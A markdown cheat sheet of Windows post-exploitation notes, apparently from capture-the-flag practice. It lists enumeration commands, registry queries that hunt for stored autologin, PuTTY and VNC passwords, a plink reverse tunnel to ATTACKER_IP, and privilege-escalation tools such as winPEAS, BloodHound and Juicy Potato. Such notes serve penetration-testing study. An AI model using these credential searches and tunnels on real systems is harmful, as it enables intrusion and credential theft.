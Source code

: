 # Windows Survey and Privilege Escalation

System Information:
```

systeminfo

ver 
hostname

```

Networking:
```
ipconfig
ipconfig /all
route print
arp -A
type C:\windows\system32\drivers\etc\networks

# display active TCP connections:
netstat -ano

# with executeanle 
netstat -bano
```
Enumerate Users and groups 
```
# Users on the local machine
net user

# all users in the domain
net user /domain 
net user <USERNAME> /domain

# groups 
net groups
net groups /domain

page 627

View the current user's information:
```
echo %username%

# account information and group memberships:
net user <USERNAME> 

# more about the user
whoami /privs
whoami /all

```


User informations:
```

# list users
net user

```

Firewall STatus:
```
#what is the new command?
netsh advfirewall show state
netsh advfirewall show config
```

Users and Groups 
```

#search through user directories

tree /f /a C:\Users\<USERNAME>

```

Password Searching:

Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine

### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?



